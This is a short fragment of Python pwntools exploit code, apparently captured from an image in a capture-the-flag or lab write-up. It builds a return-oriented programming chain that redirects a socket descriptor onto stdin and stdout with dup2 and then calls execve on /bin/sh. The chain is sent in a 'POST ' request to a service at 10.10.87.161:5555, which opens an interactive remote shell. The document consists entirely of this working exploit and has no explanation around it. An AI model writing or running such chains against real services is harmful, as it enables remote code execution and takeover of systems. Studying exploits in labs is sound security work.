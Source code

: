 ```python
pop_rdx_pop_r12 = p64(binary.address+0x180d)

ropchain = b'/bin/sh\x00'
ropchain += b'A' * (24 - len(ropchain))
ropchain += pop_rbp
ropchain += p64(0)
ropchain += pop_rdi_xor_rdi
ropchain += p64(4)
ropchain += pop_rsi
ropchain += p64(0)
ropchain += pop_rax
ropchain += p64(33)
ropchain += syscall
ropchain += pop_rdi_xor_rdi
ropchain += p64(4)
ropchain += pop_rsi
ropchain += p64(1)
ropchain += pop_rax
ropchain += p64(33)
ropchain += syscall
ropchain += pop_rdi_xor_rdi
ropchain += p64(buf)
ropchain += pop_rsi
ropchain += p64(0)
ropchain += pop_rdx_pop_r12
ropchain += p64(0)
ropchain += p64(0)
ropchain += pop_rax
ropchain += p64(59)
ropchain += syscall

#p = remote('localhost', 5555)
p = remote('10.10.87.161', 5555)

p.sendline(b'POST ' + ropchain)

p.recvrepeat(1)
p.sendline()

p.interactive()
```
